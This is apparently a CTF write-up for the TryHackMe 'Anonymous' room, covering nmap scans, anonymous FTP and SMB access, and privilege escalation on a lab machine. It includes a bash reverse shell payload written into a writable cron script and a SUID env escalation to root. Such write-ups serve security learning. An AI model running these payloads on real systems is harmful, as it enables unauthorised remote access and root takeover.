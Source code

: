 
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-1.png)

In this room i encountered 2 services, and both of them allowed anyone to connect to them and worse, to upload files.

As always, let's start with a ports scanning.

```text
# Nmap 7.80 scan initiated Sat Nov  7 05:34:01 2020 as: nmap -sS -T4 -o first.txt 10.10.180.211
Nmap scan report for 10.10.180.211
Host is up (0.078s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

# Nmap done at Sat Nov  7 05:34:05 2020 -- 1 IP address (1 host up) scanned in 3.86 seconds
```

Let's also do a more in depth scan with some default scripts.

```text
# Nmap 7.80 scan initiated Sat Nov  7 05:37:14 2020 as: nmap -sV -sC -p21,22,139,445 -o second.txt 10.10.180.211
Nmap scan report for 10.10.180.211
Host is up (0.076s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04 19:26 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 16m06s, deviation: 0s, median: 16m05s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2020-11-07T10:53:38+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-07T10:53:38
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  7 05:37:36 2020 -- 1 IP address (1 host up) scanned in 22.41 seconds
```
From the second scan i noticed the ftp server allows anonymos login and also allows anyone to write/add files to the server. The anonymous login means i can login the default credentials ftp:ftp. 

```text
ftp 10.10.180.211
Connected to 10.10.180.211.
220 NamelessOne's FTP Server!
Name (10.10.180.211:root): ftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 May 13 19:49 .
drwxr-xr-x    3 65534    65534        4096 May 13 19:49 ..
drwxrwxrwx    2 111      113          4096 Jun 04 19:26 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04 19:26 .
drwxr-xr-x    3 65534    65534        4096 May 13 19:49 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04 19:24 clean.sh
-rw-rw-r--    1 1000     1000         1247 Nov 07 10:54 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
226 Directory send OK.
ftp> get clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for clean.sh (314 bytes).
226 Transfer complete.
314 bytes received in 0.00 secs (800.6282 kB/s)
ftp> get removed_files.log
local: removed_files.log remote: removed_files.log
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for removed_files.log (1247 bytes).
226 Transfer complete.
1247 bytes received in 0.00 secs (2.9436 MB/s)
ftp> get to_do.txt
local: to_do.txt remote: to_do.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.01 secs (8.4080 kB/s)
ftp> exit
221 Goodbye.

```

Here is a scripts folder which has 3 files. The most useful to an attacker is the clean.sh script as it is world writeable and also is owned by a higher privileged user. I know that as the 1000 uid is given to humas users and services usually have other number range (1-999). the ftp has a uid of 113.

The to_do script has a warning:
```text
I really need to disable the anonymous login...it's really not safe
```
The removed_files.log is just a file with many lines: ```text Running cleanup script:  nothing to delete ```

To exploit this ftp server i need to upload a reverse shell with the name clean.sh. My script will overwrite the preexisting file and it will preserve the uid. If i were to upload a file with any other name, the file will belong to ftp user, and would have the uid 113. This machine has also a smb service which i will enumerate and maybe find something useful. If not, i will stick to my initial plan.

Using smbmap i was able to login with no password and noticed i can access the pics file, as it is read only.

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-2.png)

The folder contains 2 pictures and based on their names, are about puppies.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-3.png)

To download the files i used the -R parameter.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-4.png)

There picture were a distraction as they didn't contained anything of use. I tried exiftool, binwalk, stegsolve.jar, and even looked at their hex representation and didn't find a specific string which denoted the use of steghide.   
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-5.png)
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-6.png)

I think it's time to apply the forementioned plan. My payload is:
```text
#!/bin/bash
bash -i >& /dev/tcp/10.8.5.181/1234 0>&1
```

Based on the result of the id command, i got a reverse shell as the user namelessone. This user is part of group lxd. This group can be used to escalate privileges to root.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-7.png)

The flag was in the home folder of the current user. Now i will further enumerate the other ways i can do privesc. Among the binaries i found the env command.

```text
find / -type f -perm /u=s 2>/dev/null
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
```

On gtfobins i found a way to use the env command to escalate privileges.

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-8.png)

When i executed the command i didn't notice any difference, but the more i looked at the result of id command i saw the added group euid with his value of 0.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Anonymous/images/119-9.png)
